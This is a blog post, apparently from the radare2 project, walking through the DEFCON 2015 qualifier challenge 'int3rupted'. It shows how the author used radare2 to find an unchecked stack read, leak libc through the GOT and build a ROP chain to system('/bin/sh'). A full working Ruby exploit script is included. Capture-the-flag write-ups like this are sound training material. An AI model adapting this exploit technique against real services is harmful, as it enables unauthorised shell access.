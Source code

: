 +++
date = "2015-06-04T21:43:59+02:00"
draft = false
title = "Solving 'int3rupted' from defcon 2015 qualifier with r2"
slug = "solving-int3rupted-from-defcon-2015-qualifier-with-r2"
aliases = [
	"solving-int3rupted-from-defcon-2015-qualifier-with-r2"
]
+++
In previous blog posts we've shown how radare2 can be useful for exploiting "baby" level challenges. Let's show how we can use it to find the bug and ultimately exploit a 5 point pwning challenge from the [DEFCON 2015 qualifiers]( https://legitbs.net/ )!

You can find the binary [here]( https://github.com/ctfs/write-ups-2015/blob/master/defcon-qualifier-ctf-2015/pwnable/int3rupted/int3rupted_3bb8f10793b82841c44a366eb9f27223 ) if you want to play along at home.

To start with, in the challenge, we were just given a hostname and ip address, no binary was given! To simulate this, we can use `rarun2` to host the binary locally. The following line will run the binary on port 8888 on connections:
```
rarun2 program=./int3rupted_3bb8f10793b82841c44a366eb9f27223 listen=8888
```

So, let's try connection with `nc` to try to interact. After some spamming every character, we discover that if you type in `?` a help message is displayed.

```
impactsite ~/int3 » nc localhost 8888
> ?
Help menu:
        g - Begin execution
        db <addr> - Dump bytes at addr
        bp addr - Set breakpoint at addr
        c - Continue from breakpoint.
        ? - This text
>
```

So, now the name `int3rupted` makes sense! The `int3` instruction is defined for use by debuggers to temporarily replace an instruction in a running program in order to set a breakpoint. 

Because this is the binary is not provided, it's going to take some work to find the bug! As we have arbitrary read with `db <addr>` it will just take a bit of work to find the bug.

Checking through the loader script on Linux, amd64, we can see that the elf gets loaded at address `0x400000`, so you can start dumping from there.

```sh
impactsite ~ » cat /usr/lib/ldscripts/elf_x86_64.x | grep SEGMENT_START
  PROVIDE (__executable_start = SEGMENT_START("text-segment", 0x400000)); . = SEGMENT_START("text-segment", 0x400000) + SIZEOF_HEADERS;
  . = SEGMENT_START("ldata-segment", .);
```

![header](/images/2015/06/elf_header.png)

Although it is a tedious process, you can dump the enough of the binary to load it up in your favorite disassembler.

So, quickly after reversing (which I will leave as an exercise to the reader), a high level overview of the binary is as follows.

- `g` goes to chance game
 - high score lets you write your name into *.bss area*
- `db` dump bytes - we used to dump bin
- `bp` sets breakpoint, write `0xCC` mark page as `R-X` (not `W`!) can’t do this to stack, b/c becomes unwritable :(
- `c` restore from breakpoint
- `?` print help text

Let's look at how int3rupted reads in the user's input. The function takes in a length, a fd to read from, a buffer to write to, and a "stop" character (newline).

![read_user_input](/images/2015/06/disasm.png)

Oh, what's this?!? The "length" var is increased, but it's termination value is at `length == 0`. This means we have an _unchecked_ read.

Let's have a look at who else calls the `read_user_input` function.

![xrefs](/images/2015/06/pd2.png)

Can it really be so simple, just a basic stack smash from `main_menu`? There is no `system` called in the binary, and there is *ASLR* activated, but if you recall, we have an arbitrary read, so we can just leak the addresses of libc functions, simple! There isn't even a stack canary to worry about.

Let's use `rabin2` to find the address to read in order to leak the libc function `puts`.

![puts](/images/2015/06/rabin.png)

Let's just assume that it's on Ubuntu trusty, because all of the other challenges were. Otherwise there are some nice [database tools]( https://github.com/niklasb/libc-database ) to use.

So, from here, there is not much left to do. Just construct an exploit that does the following:

- leak libc address of puts
- compute offset of `/bin/sh\x00` and `system`
- `pop /bin/sh\x00` into `rdi`
- call `system`

Simple, right?

And like magic, we can get a shell! 5 easy points. The final exploit below has comments for the r2 commands to get the needed values (like rop gadgets and offsets).
![shell](/images/2015/06/shell.png)

```ruby
#!/usr/bin/env ruby
require_relative 'shoe'

# host = "int3rupted_3bb8f10793b82841c44a366eb9f27223.quals.shallweplayaga.me"
# port = 52428

# rarun2 program=./int3rupted_3bb8f10793b82841c44a366eb9f27223 listen=8888
host = "localhost"
port = 8888

# ubuntu trusty libc
system_offset = 0x00046640 # is~name=system - from libc
binsh_offset = 0x0017ccdb # / /bin/sh\x00 - from libc
puts_offset = 0x0006fe30 # is~name=puts - from libc
exit_offset = 0x0003c290 # is~name=exit - from libc
# from int3rupted binary
poprdirbpret = 0x00401648 # "/R/ pop rdi;ret"
puts_got = 0x00603028 # iR~puts

@s = Shoe.new host, port

def read_menu
  @s.read_til_end 0.1
end

@s.say "?\n"
read_menu
puts "[!] dumping GOT address of puts"
@s.say "db 0x#{puts_got.to_s 16}\n"
str = read_menu
puts str.split(">")[0]
libc_base_addr = (str.split("-")[0].split(":")[1].reverse.split(" ").map{|i| i.reverse}.join("").to_i 16) - puts_offset
puts "[+] libc base is at 0x#{libc_base_addr.to_s 16}"
puts "[+] system is at 0x#{(libc_base_addr + system_offset).to_s 16}"
puts "[+] /bin/sh\\x00 is at 0x#{(libc_base_addr + binsh_offset).to_s 16}"
@s.say ("g\n")
read_menu
rop = "A" * 56
rop << [poprdirbpret].pack("Q") # get /bin/sh into rdi
rop << [libc_base_addr + binsh_offset].pack("Q") # /bin/sh into rdi
rop << "JUNKJUNK" # garbage popped into rbp
rop << [libc_base_addr + system_offset].pack("Q") # system("/bin/sh")
rop << [libc_base_addr + exit_offset].pack("Q") # exit cleanly :)
puts "[!] sending rop chain!"
@s.say "#{rop}\n"
str = read_menu
puts "[*] enjoy your shell"
@s.tie!
```
```ruby
require 'socket'
require 'timeout'
require 'rolling_timeout'

class Shoe < TCPSocket
  def recv_until str
    buf = ""
    until buf.end_with? str do
      buf << self.recv(1)
    end
    buf
  end

  def recv_until_re regex
    buf = ""
    while not regex.match buf
      buf << self.recv(1)
    end
    buf
  end

  def say str
    self.send str, 0
  end

  def read_n_seconds secs
    # requires native threads.
    # doesn't work with ruby 1.8.x or lower
    buf = ""
    begin
      timeout(secs) do
        loop {
          buf << self.recv(1)
        }
      end
    rescue Timeout::Error
    end
    buf
  end

  def read_til_end timeout
    # timeout is time between chars
    buf = ""
    begin
      RollingTimeout.new(timeout) { |timer|
        loop {
          buf << self.recv(1)
          timer.reset
        }
      }
    rescue Timeout::Error
    end
    buf
  end

  def tie!
    # kick off a thread just reading forever
    Thread.new { loop { $stdout.write(self.recv(4096)) } }
    str = ""
    loop {
      ch = $stdin.read_nonblock(1) rescue nil
      if ch == nil
        next
      end
      self.send ch, 0
    }
  end
end
```
